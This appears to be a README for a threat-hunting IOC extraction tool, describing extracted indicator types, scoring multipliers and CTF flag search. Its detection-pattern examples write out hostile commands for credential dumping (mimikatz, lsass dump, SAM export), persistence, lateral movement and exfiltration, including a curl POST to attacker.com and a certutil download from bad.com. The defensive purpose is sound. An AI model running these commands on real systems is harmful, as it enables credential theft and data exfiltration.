 # 🎯 IOC EXTRACTION REFERENCE - Complete Coverage

## **✅ ALL EXTRACTED IOC TYPES (10 Types)**

The threat hunting system extracts **10 different IOC types** across all tables:

---

## **📊 COMPLETE IOC TYPE LIST:**

| # | Type | Pattern/Source | Example | Boost |
|---|------|----------------|---------|-------|
| 1 | **IP Address** | IPv4 regex | `79.76.123.251` | 1x |
| 2 | **IPv6 Address** | IPv6 regex | `2607:fea8::1` | 1x |
| 3 | **File Hash (MD5)** | 32-char hex | `5d41402abc4b2a76b9719d911017c592` | 5x |
| 4 | **File Hash (SHA256)** | 64-char hex | `abc123def...` | 5x |
| 5 | **Domain** | FQDN regex | `malicious.com` | 1x |
| 6 | **Email** | Email regex | `attacker@bad.com` | 1x |
| 7 | **URL** | HTTP/HTTPS | `http://exfil.com/data` | 3x |
| 8 | **Base64** | Base64 pattern | `UG93ZXJTaGVs...` | 2x |
| 9 | **ProcessCommandLine** | From logs (filtered) | `powershell -enc [data]` | **4x** |
| 10 | **Parent Command** | InitiatingProcess | `cmd.exe /c whoami` | **4x** |
| 11 | **Account Name** | From CSV | `slflare` | 1x |
| 12 | **Device Name** | From CSV | `slflarewinsysmo` | 1x |

**Boost** = Relevance multiplier (higher = prioritized in results)

---

## **🔥 COMMAND LINE EXTRACTION (NEW!)**

### **ProcessCommandLine Detection:**

The system extracts command lines that contain **suspicious patterns**:

#### **Encoding/Obfuscation:**
```powershell
powershell.exe -encodedCommand UG93ZXJTaGVs...
powershell.exe -e [base64]
Invoke-Expression [System.Convert]::FromBase64String(...)
```

#### **Credential Access:**
```powershell
mimikatz.exe sekurlsa::logonpasswords
procdump.exe -ma lsass.exe lsass.dmp
reg save HKLM\SAM sam.save
```

#### **Persistence:**
```cmd
schtasks /create /tn "Backdoor" /tr malware.exe
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v evil
```

#### **Lateral Movement:**
```cmd
psexec.exe \\server-01 -u admin cmd.exe
wmic /node:server-01 process call create "cmd.exe"
net use \\server-01\c$ /user:admin password
```

#### **Exfiltration:**
```powershell
Compress-Archive -Path C:\Data -DestinationPath exfil.zip
curl http://attacker.com/exfil -Method POST -Body $data
certutil -urlcache -f http://bad.com/data.txt
```

#### **CTF Patterns:**
```bash
echo "flag{this_is_the_answer}" > output.txt
cat /root/flag.txt
grep -r "flag{" /var/log/
```

---

## **🎯 FILTERING LOGIC:**

### **Commands Are Extracted If:**

1. ✅ **Contains suspicious keywords** (50+ patterns)
2. ✅ **Very long** (>200 characters - often obfuscated)
3. ✅ **High special char density** (>10 special chars - potential encoding)
4. ✅ **Contains CTF keywords** (`flag{`, `ctf`, `decode`, `hidden`)

### **Commands Are Ignored If:**

1. ❌ Too short (<10 characters)
2. ❌ Empty or null
3. ❌ Common benign processes (filtered during ranking)

---

## **💡 WHY COMMAND LINES ARE CRITICAL FOR CTF:**

### **1. Direct Flag Storage:**
```bash
# Flag directly in command
echo "flag{admin_192.168.1.1_1234}" > /tmp/flag.txt

# Captured as:
IOC Type: command
Value: echo "flag{admin_192.168.1.1_1234}" > /tmp/flag.txt
```

### **2. Encoded Flags:**
```powershell
# Base64 encoded flag
powershell.exe -enc ZmxhZ3thZG1pbl8xOTIuMTY4LjEuMV8xMjM0fQ==

# Captured as:
IOC Type: command
Value: powershell.exe -enc ZmxhZ3...
```

### **3. Attack Chain Visibility:**
```
Parent Command: cmd.exe /c powershell.exe
Child Command: powershell.exe -enc [malicious]

Shows full attack chain!
```

### **4. IOC Correlation:**
```
Command: curl http://79.76.123.251/data.txt
Network: Connection to 79.76.123.251

Correlates command with network activity!
```

---

## **📊 IOC SCORING SYSTEM:**

| IOC Type | Base Score | Multiplier | Final Priority |
|----------|------------|------------|----------------|
| File Hash | Event count | x5 | **Highest** |
| Command Lines | Event count | x4 | **Very High** |
| URLs | Event count | x3 | High |
| Base64 | Event count | x2 | Medium |
| IPs, Accounts | Event count | x1 | Normal |

**Plus:** If IOC appears in investigation context → **x10 boost!**

---

## **🎯 COMMAND LINE BEST PRACTICES:**

### **1. Look for Encoding:**
Commands with `-enc`, `-e`, `base64` often hide malicious code or flags

### **2. Check Parent Process:**
`InitiatingProcessCommandLine` shows how the suspicious process was launched

### **3. Correlate with Network:**
If command has URL/IP, check network events to that destination

### **4. Decode Everything:**
The LLM will attempt to decode base64, hex, and other encodings found in commands

---

## **✅ READY TO USE:**

The IOC extraction system is **fully functional**!

**Try it:**
```bash
python3 _main.py
# Select [1] Threat Hunting
# Select query method and table
# Provide investigation context if needed
# Review all extracted IOCs including IPs, hashes, domains, commands, etc.
```

**All IOC types are automatically extracted and analyzed!** 🎯

